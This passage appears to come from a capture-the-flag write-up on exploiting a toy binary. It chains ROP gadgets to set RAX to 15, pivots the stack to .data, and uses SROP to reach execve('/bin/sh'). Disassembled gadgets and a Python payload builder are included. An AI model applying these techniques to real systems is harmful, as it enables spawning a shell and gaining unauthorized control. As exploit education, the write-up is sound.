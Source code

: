 ### My Exploit Idea

There isn't any gadget to directly control RAX, but multiple other gadgets
that can be used to set RAX to 15. This can be done by chaining the following
4 gadgets:

```  
0000000000401079 <gadget_1>:  
 401079:       b8 06 00 00 00          mov    eax,0x6  
 40107e:       c3                      ret

0000000000401085 <gadget_3>:  
 401085:       48 89 c7                mov    rdi,rax  
 401088:       c3                      ret

000000000040107f <gadget_2>:  
 40107f:       b8 09 00 00 00          mov    eax,0x9  
 401084:       c3                      ret

00000000004010a1 <gadget_10>:  
 4010a1:       48 01 f8                add    rax,rdi  
 4010a4:       c3                      ret  
```

This will simply add 9 to 6, which will result in RAX being set to 15, the
syscall number for sigret.

The next immediate problem is that we don't have the string `"/bin/sh"`
available at a known address within the binary. That means we have to place it
somewhere, where we can predict the address. We could return into get_input
and perform a 2nd read syscall to write the string onto the stack, except we
wouldn't be able to predict the address because of ASLR and the security check
will kick in an exit the program...

A different solution is needed. Luckily we can solve those two problems with
one method, SROP. First we set RSP to 0x402000 (.data) again just like before.
Now we have a stack, which will always have the same address and we can easily
predict. But how can we get around the security check for the variable set to
1? Easy! The stack is exactly at the address where the variable is located, so
all we need to do is overwrite it with a 0 by executing a read() syscall. Then
we can repeat the bufferoverflow and set up the execve() call with our fixed
stack.

### Building the Exploit

Okay, let's start building the payload up to this point. The following will
overflow the buffer, chain the gadgets to set RAX=15, and finally return to a
syscall and executing the sigret.

```py  
mov_rax_6 = 0x401079  
mov_rdi_rax = 0x401085  
mov_rax_9 = 0x40107f  
add_rax_rdi = 0x4010a1

payload = b'A'*8  
payload += p64(mov_rax_6)  
payload += p64(mov_rdi_rax)  
payload += p64(mov_rax_9)  
payload += p64(add_rax_rdi) # set rax=0xf  
payload += p64(0x401072) # syscall (sigret)  
```
